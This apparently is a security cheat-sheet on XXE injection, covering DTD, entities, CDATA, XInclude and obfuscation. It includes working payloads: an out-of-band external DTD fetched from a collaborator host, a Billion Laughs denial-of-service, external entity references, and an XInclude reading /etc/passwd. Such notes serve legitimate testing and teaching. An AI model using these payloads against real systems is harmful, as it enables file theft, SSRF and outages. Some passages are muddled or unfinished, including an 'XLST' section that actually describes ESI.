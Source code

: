 XML External Entity injection occurs when an XML parser processes external entities in an unsafe way. This vulnerability type also includes XInclude abuse.

## DTD injection

> An injection of DTD is a classical way of exploiting XXE. If it's not applicable, move to XInclude section.

An XML document starts with XML declaration with the ==Document Type Declaration (DTD)== after it:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
```

Usually internal DTD is used, which means that data structures are defined inline within `DOCTYPE` tag.

A DTD can be also external, which means that one can specify a link to a dedicated server with entity declarations on it:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://collab/schema.dtd"> %xxe;]>
```

When the XML parser is capable of network interactions, the exploitation way is usually ==out-of-band (OOB)==. If it's not applicable, focus on the ==error-based== methods.

And, finally, DTDs can be local, or, in other words, stored somewhere on the same host. These DTDs are used for error-based exploitation. You either need to bruteforce a valid file, or use some of OS-specific

https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

### Entities

DTD contains both ==external and internal custom entities==. 

Internal entities are mostly harmless. They can only be used as a reflection sink for client side attacks or cause DoS: 

```xml
<!-- Billion Laugh Attack -->

<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
Another variant with parameter entities exists - [Parameters Laugh Attack](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#parameters-laugh-attack).

External entites contain `SYSTEM` or `PUBLIC` keyword and can lead to SSRF or RCE.

An entity can be ==general or parametrized==. A general entity is referenced inside the document body with the following notation:
```xml
<!DOCTYPE root [ <!ENTITY test SYSTEM "http://example.com/payload"> ]> 
<root>&test;</root>
```
While a parametrized entity is defined and used only within DTD:
```xml
<!DOCTYPE root [ 
<!ENTITY % ext SYSTEM "http://example.com/payload">
%ext; ]
> 
<root></root>
```
Notice that metacharacters like `&gt;` also represent a general entity.

## CData

CDATA stands for Character Data and it means that the data in between these strings includes data that _could_ be interpreted as XML markup, but should not be.

This section is often used to include code blocks which contain special symbols. However, the same can be achived with escaping characters.

The key differences between CDATA and comments are:

- CDATA is still part of the document, while a comment is not.
- In CDATA you cannot include the string `]]>` ([`CDEnd`](http://www.w3.org/TR/REC-xml/#NT-CDEnd)), while in a comment [`--` is invalid](http://www.w3.org/TR/REC-xml/#sec-comments).
- [Parameter Entity](http://www.w3.org/TR/REC-xml/#dt-PERef) references are not recognized inside of comments.

https://stackoverflow.com/questions/2784183/what-does-cdata-in-xml-mean
## XInclude

XInclude is a generic mechanism for merging XML files.

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## XLST injection

Another way of including payload inside an XML document body is using ESI tags. These are commonly used by Apache on a server side.

https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/
## Obfuscation

You can modify the document encoding in its header - `<?xml version="1.0" encoding="utf-8"?>`

https://mohemiv.com/all/evil-xml/
